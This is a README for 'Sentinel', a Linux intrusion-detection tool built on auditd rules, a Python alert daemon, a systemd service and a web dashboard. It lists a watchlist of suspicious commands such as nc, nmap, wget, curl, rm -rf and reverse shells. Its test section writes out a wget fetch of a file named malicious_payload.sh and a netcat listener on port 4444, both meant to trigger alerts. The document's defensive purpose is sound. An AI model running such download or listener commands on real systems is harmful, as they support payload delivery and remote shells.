




# 🔐 Sentinel: Linux Privileged Session Monitor

[](https://linux-privileged-session-monitor.vercel.app/)
[](https://linux-privileged-session-monitor.vercel.app/)
[](https://linux-privileged-session-monitor.vercel.app/)

Sentinel is a real-time host intrusion detection and privileged session monitoring system designed for Linux environments. It monitors low-level system call executions via `auditd`, parses execution logs using an optimized Python daemon, triggers desktop-level notifications using `notify-send`, and streams events in real-time to a modern cybersecurity dashboard.

### 🌐 Live Dashboard URL
👉 **[Launch Sentinel Interactive Dashboard](https://linux-privileged-session-monitor.vercel.app/)**

---

## 📸 Dashboard Preview

### 📊 Real-Time Cybersecurity Console


### 💻 Interactive Simulation Terminal


### 🔔 Native Desktop Alert (Linux notify-send)


---

## ⚡ Core Features

- **Auditd Rule Integration**: Watches for root-level shell invocations (`/bin/bash`), sudo executions (`/usr/bin/sudo`), and unauthorized user commands (`execve`).
- **Suspicious Command Watchlist**: Flags commands like `rm -rf`, `nc`, `nmap`, `wget`, `curl`, `chmod 777`, `dd if=`, and reverse shell triggers.
- **Throttling & Anti-Spam Control**: Suppresses duplicate alerts for the same command type within a configurable window (defaults to 5 minutes).
- **Web Simulation Mode**: Fully interactive, browser-based terminal simulator allows security teams to test and model command rules with immediate telemetry feedback.
- **Real-Time Threat Intelligence Graph**: Beautiful visual dashboard graphs highlighting suspect keywords and system latencies.
- **Systemd Persistence**: Continuous monitoring in the background as a reliable systemd service.

---

## 🛠️ System Architecture


```mermaid
graph TD
    A[Linux Kernel Syscalls] -->|Audit Rules| B(auditd Daemon)
    B -->|Logs written| C(/var/log/audit/audit.log)
    C -->|Tail Stream| D[Python Monitor Agent /opt/priv_alerts.py]
    D -->|Match Rules & Cooldown| E{Signature Watchlist}
    E -->|Trigger Desktop Alert| F[libnotify notify-send]
    E -->|Real-Time Web API Link| G[Sentinel Security Dashboard]
```

---

## ⚙️ Deployment & Setup Guide

The project is split into two components:
1. **Interactive Web Dashboard** (React SPA, deployed on Vercel)
2. **Local Python Monitoring Agent** (Python & auditd, deployed on a Linux Host)

### Option A: Accessing the Live Web Dashboard
Simply open the live URL: [https://linux-privileged-session-monitor.vercel.app/](https://linux-privileged-session-monitor.vercel.app/). You can interact with the **Terminal Simulator**, type command triggers, and configure warning signatures.

---

### Option B: Deploying the Python Monitor Agent on a Linux Host

Follow these steps to deploy and run the monitoring daemon locally on your target Linux machine:

#### 1. Install System Dependencies
Update your package manager and install `auditd`, `libnotify-bin` (for notifications), and `python3`:
```bash
sudo apt update
sudo apt install -y auditd libnotify-bin python3
```

#### 2. Configure Audit Rules
Create a custom rules file at `/etc/audit/rules.d/privmon.rules` to register hooks for shell spawn and administrative commands:
```bash
sudo nano /etc/audit/rules.d/privmon.rules
```
Paste the following configurations:
```text
-w /usr/bin/sudo -p x -k sudo-usage
-w /bin/bash -p x -k shell-usage
-a always,exit -F arch=b64 -S execve -F euid=0 -k exec-root
```

#### 3. Copy the Python Script
Move the monitor engine script to `/opt/` and make it executable:
```bash
sudo cp alert_files/priv_alerts.py /opt/
sudo chmod +x /opt/priv_alerts.py
```

#### 4. Configure systemd Service
Create the configuration file `/etc/systemd/system/priv-alert.service` to make the monitoring agent persistent across system boots:
```bash
sudo nano /etc/systemd/system/priv-alert.service
```
Insert the following configuration:
```ini
[Unit]
Description=Linux Privileged Session Monitor
After=graphical.target

[Service]
ExecStart=/usr/bin/env bash -c 'DISPLAY=:0 DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus /usr/bin/python3 /opt/priv_alerts.py'
Restart=always
User=root

[Install]
WantedBy=default.target
```

#### 5. Enable and Activate Daemon
Reload the systemd manager configuration, enable the service, and start it immediately:
```bash
sudo systemctl daemon-reload
sudo systemctl enable --now priv-alert.service
```

---

## 🧪 Testing System Integrity

Run the following test commands inside your Linux console. If they match the watchlist signatures, you will immediately receive a native Linux desktop banner:

```bash
# Test command 1 (wget alert)
sudo wget http://example.com/malicious_payload.sh

# Test command 2 (reverse listener alert)
sudo nc -lvp 4444
```

---

## 📦 Project File Structure
```text
├── alert_files/
│   ├── priv-alert.service   # Systemd service unit descriptor
│   ├── priv_alerts.py       # Live python log parser and triggers daemon
│   └── privmon.rules        # Security audit rules specification
├── src/
│   ├── App.jsx              # Security UI application dashboard & simulator
│   ├── index.css            # Custom glassmorphic styles and grids
│   └── main.jsx             # React bootstrapper
├── index.html               # Main webpage frame
├── vite.config.js           # Vite server settings
└── package.json             # App dependencies & run scripts
```
